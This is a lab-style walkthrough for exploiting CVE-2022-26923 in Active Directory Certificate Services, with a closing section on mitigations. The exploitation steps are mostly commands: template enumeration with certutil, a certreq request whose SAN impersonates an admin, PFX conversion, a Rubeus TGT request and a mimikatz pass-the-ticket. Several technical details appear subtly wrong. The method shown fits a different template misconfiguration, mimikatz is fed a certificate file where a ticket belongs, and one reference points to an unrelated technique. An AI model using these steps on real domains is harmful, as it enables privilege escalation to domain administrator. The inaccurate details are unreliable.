

# Exploitation of CVE-2022-26923 - Active Directory Certificate Services Privilege Escalation

## Overview

CVE-2022-26923 is a privilege escalation vulnerability in Microsoft Active Directory Certificate Services (AD CS) that allows an attacker with low privileges to escalate to domain administrator if misconfigurations exist. This vulnerability arises due to improper authentication and authorization in the AD CS certificate enrollment process.



## Vulnerability Details

- **CVE-ID**: CVE-2022-26923
- **Impact**: Privilege Escalation
- **Affected Services**: Active Directory Certificate Services (AD CS)
- **Exploitation Prerequisites**:
  - Attacker must have low-level domain user privileges.
  - Active Directory Certificate Services (AD CS) must be configured with misconfigured certificate templates.
  - The domain user must be able to enroll in a vulnerable certificate template.

## Lab Setup

To replicate the issue, we will set up a test environment with:

1. Windows Server (Domain Controller + AD CS)
2. Windows Client (Attacker Machine)
3. Kali Linux (Optional for enumeration)

### Steps to Set Up AD CS

1. Install **Active Directory Certificate Services** on a Windows Server.
2. Configure a vulnerable certificate template:
   - Open the **Certificate Authority Manager** (`certsrv.msc`).
   - Create a new template by duplicating an existing user template.
   - Ensure the template allows authentication but does not have sufficient identity verification.
   - Assign **Enroll** and **Auto-enroll** permissions to standard users.

## Exploitation Walkthrough

### Step 1: Enumerate AD CS

Use `certutil` to enumerate available certificate templates:

```powershell
certutil -TCAInfo
certutil -v -template
```

If a misconfigured template allows enrollment, proceed to the next step.

### Step 2: Request a Certificate

An attacker can request a certificate with the **Subject Alternative Name (SAN)** set to another user (e.g., a Domain Admin):

```powershell
certreq -new request.inf request.csr
```

where `request.inf` contains:

```
[NewRequest]
Subject = "CN=Attacker"
[Extensions]
2.5.29.17 = "{text}dns=admin.domain.local"
```

### Step 3: Retrieve the Issued Certificate

Once the request is submitted, retrieve the issued certificate:

```powershell
certreq -retrieve -config "CA_NAME" request.csr issued.cer
```

### Step 4: Use the Certificate for Authentication

Convert the certificate into a PFX file:

```powershell
openssl pkcs12 -export -out attack.pfx -inkey private.key -in issued.cer
```

Use the certificate for authentication with tools like Rubeus:

```powershell
Rubeus.exe asktgt /user:Administrator /certificate:attack.pfx
```

### Step 5: Escalate to Domain Admin

Once a valid TGT is obtained, use it to gain administrative access:

```powershell
mimikatz "kerberos::ptt attack.pfx"
dsquery user -name Administrator
```

## Mitigation Strategies

- **Review Certificate Templates**: Ensure that only authorized users have enrollment permissions.
- **Enable Strong Authentication**: Require smart card logon and enforce certificate-based authentication policies.
- **Monitor Certificate Enrollment**: Regularly audit certificate requests and issuance logs.
- **Patch Systems**: Apply Microsoft security updates to mitigate this vulnerability.

## Conclusion

CVE-2022-26923 highlights the dangers of misconfigured certificate templates in Active Directory Certificate Services. By exploiting improper authentication checks, attackers can escalate privileges to domain administrator, posing a significant security risk. Proper configuration and monitoring of certificate services can help prevent such attacks.

### References

- [Microsoft Security Advisory](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-26923)
- [AD CS Misconfiguration Exploitation](https://attack.mitre.org/techniques/T1557/003/)

